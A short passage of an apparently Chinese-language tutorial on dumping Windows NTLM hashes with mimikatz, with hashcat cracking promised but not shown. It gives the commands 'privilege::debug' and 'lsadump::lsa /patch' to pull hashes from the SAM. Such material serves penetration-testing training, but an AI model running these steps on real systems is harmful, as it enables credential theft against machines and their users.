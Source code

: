 我们将重点关注用 mimikatz 转储 NTLM 散列，然后用 hashcat 破解这些散列。

第一步:运行 mimikatz:

![](img/a0dc0036af7f393e48d63b08a0196054.png)

mimikatz.exe

第 2 步:`privilege::debug`确保输出是“Privilege ' 20 ' ok”——这确保您以管理员身份运行 mimikatz 如果不以管理员身份运行 mimikatz，mimikatz 将无法正常运行

![](img/060cfa7ecce3680db738fd290906b229.png)

特权

步骤 3: `lsadump::lsa /patch`从 SAM 文件中转储哈希值。
